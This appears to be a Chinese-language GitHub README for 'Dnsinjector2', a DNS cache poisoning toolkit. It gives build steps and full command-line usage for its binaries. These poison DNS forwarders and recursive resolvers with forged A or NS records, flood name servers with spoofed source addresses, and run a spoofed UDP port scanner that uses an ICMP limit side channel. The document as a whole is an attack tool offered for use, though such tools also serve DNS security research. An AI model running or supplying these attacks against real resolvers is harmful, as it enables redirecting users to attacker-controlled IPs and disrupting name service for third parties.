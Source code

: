 # Dnsinjector2

### Build

依赖：

- cmake
- make
- gcc / clang

````
./build.sh
````

or

````
mkdir build
cmake ..
make
````

### 使用

Build后会产生若干可执行文件：

- attack_forwr (转发器攻击程序)
- attack_recur (递归攻击程序)
- attack_recur_ns (递归攻击程序,NS污染版本)
- nsmuter (NS server flood攻击程序)
- udpscan (UDP private port 扫描器)
- delayns（攻击forwarder时使用的NS服务器）

**由于使用了Raw socket，所有可执行文件均需要以root权限运行。**

#### attack_forwr

````
./attack_forwr -t <target_ip> -s <scan_src_ip> -u <upstream_ip> -o <tool_domain> -d <domain_poisoned> -a <poisoned_ip> [-v]
````

- -t：被投毒的转发器的IP；
- -s：端口扫描使用的源IP；
- -u：该转发器的上游DNS Server IP；
- -o：攻击者自己的域名（用于夹带CNAME响应）；
- -d：被污染的域名；
- -a：污染后指向的IP；
- -v：打印详细输出。

#### attack_recur

````
./attack_recur -i <recur_ip_in> -o <recur_ip_out> -s <scan_src_ip> -u <ns_server_ip>:<ns_server_ip> -d <domain_poisoned> -a <poisoned_ip> [-v]
````

- -i：被投毒的转发器的入口IP；
- -o：被投毒的转发器的出口IP；
- -s：端口扫描使用的源IP；
- -u：被污染的域名的NS服务器IP，如有多个则以":"分隔；
- -d：被污染的域名；
- -a：污染后指向的IP；
- -v：打印详细输出。

#### attack_recur_ns

````
./attack_recur -i <recur_ip_in> -o <recur_ip_out> -s <scan_src_ip> -u <ns_server_ip>:<ns_server_ip> -d <domain_poisoned> -n <poisoned_ns> [-v]
````

- -i：被投毒的转发器的入口IP；
- -o：被投毒的转发器的出口IP；
- -s：端口扫描使用的源IP；
- -u：被污染的域名的NS服务器IP，如有多个则以":"分隔；
- -d：被攻击的域名；
- -n：投毒后的被攻击的域名的上级域名的NS记录；
- -v：打印详细输出。

#### nsmuter

````
./nsmuter -r <resolver_ip> -u <ns_server_ip> -d <domain_queried> [-s seconds] [-t threads]
````

- -r：Flood包伪造的源IP；
- -u：Flood包的目的IP；
- -d：Flood包请求的域名；
- -s：Flood持续时间；
- -t：并发线程数。

#### udpscan

````
/udpscan -t <target_ip> -u <spoof_ip> [-s start_port] [-e end_port] [-l icmp_limit] [-v]
````

- -t：扫描的目标IP；
- -u：扫描包的伪造源IP地址；
- -s：扫描的起始端口；
- -e：扫描的终止端口；
- -l：目标的ICMP global limit值；
- -v：打印详细输出。

#### delayns

````
./delayns -l <listen_addr> -z <domain_zone> -n <ns_domain>
````

- -l：监听的端口
- -z：NS所服务的域
- -n：NS服务器的域名
